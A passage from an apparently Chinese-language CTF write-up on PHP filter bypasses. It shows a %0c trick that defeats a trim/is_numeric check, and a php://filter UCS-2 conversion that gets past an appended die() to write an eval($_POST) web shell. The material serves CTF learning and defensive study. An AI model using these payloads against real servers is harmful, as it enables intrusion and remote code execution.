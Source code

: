 这个按理说也是文件的，但 is_file 认为不是





### 19、trim 函数的绕过 + is_numeric 绕过

这两个函数一起检测时，`is_numeric`认为内容里有 %09 %0a %0b %0c %0d %20 也算数字，跟 trim 一起测试一下

```php
for ($i = 0; $i <= 128; $i++) {
    $x = chr($i) . '1';
    if (trim($x) !== '1' &&  is_numeric($x)) {
        echo urlencode(chr($i)) . "\n";
    }
}
```

除了 +-. 号以外还有只剩下 %0c 也就是换页符了，trim 默认时没有剔除 %0c。形如以下代码可以绕过

```php
if (is_numeric($num) and $num !== '36' and trim($num) !== '36') {
    if ($num == '36') {
        echo $flag;
    } else {
        echo "hacker!!";
    }
}
```

payload:`num=%0c36`





### 20、绕过死亡 die

```php
<?php
function filter($x)
{
    if (preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i', $x)) {
        die('too young too simple sometimes naive!');
    }
}
$file = $_GET['file'];
$contents = $_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>" . $contents);
?>
```

这道看了羽师傅 wp，过滤了许多协议，这是取一个 UCS-2LE UCS-2BE

```php
payload:
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
post:contents=?<hp pvela$(P_SO[T]1;)>?
```
